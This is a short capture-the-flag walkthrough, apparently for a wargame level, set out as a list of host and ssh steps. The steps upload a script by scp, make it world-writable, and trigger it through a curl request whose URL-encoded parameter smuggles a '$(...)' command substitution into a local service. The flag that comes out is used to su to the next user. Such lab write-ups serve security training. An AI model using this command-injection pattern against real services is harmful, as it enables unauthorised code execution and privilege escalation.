 host:
- `scp -P 4242 SCRIPT level12@192.168.56.101:/tmp/SCRIPT`
- paste the previous flag as the password

ssh:
- `chmod 777 /tmp/SCRIPT`
- `curl "localhost:4646?x=%24%28%2F*%2FSCRIPT%29&y=yes"`
- `cat /tmp/flag13`, copy the flag
- `su level13`, paste the flag as the password